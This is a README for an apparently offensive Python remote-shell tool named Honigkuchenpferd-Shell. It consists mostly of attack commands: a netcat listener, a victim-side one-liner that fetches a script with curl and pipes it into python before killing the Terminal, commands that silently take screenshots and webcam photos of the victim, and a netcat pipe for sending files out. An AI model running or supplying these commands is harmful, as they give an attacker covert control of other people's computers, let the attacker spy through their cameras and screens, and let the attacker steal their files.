 ![Screenshot](picture/hacking-is-bad-mmmkay.jpg)

# Honigkuchenpferd-Shell

free to use but doesn't mess up mmmkay !

Simple Reverse and Bind Shell

python2.7 and python3

## Server
```
#reverse shell
nc -lvp 6666

#bind shell
nc <IP> 6666
```

## Victim
```
curl -s http://$IP:$PORT/Honigkuchenpferd.py | /usr/bin/python  & disown; killall Terminal
```

## macOS:
### Screenshot
```
screencapture -x /tmp/screenshot.jpg
```
## gnu/linux:
### Screenshot
```
ffmpeg -f x11grab -framerate 1 -i :0.0 -vframes 1 screenshot.jpg
```
### Selfie
```
#Selfie
ffmpeg -f video4linux2 -s 640x480 -i /dev/video0 -ss 0:0:1 -frames 1 /tmp/selfie.jpg
```

## Send File
```
nc -lvp 6667 > out
```
```
cat <file> | nc <IP> 6667
```
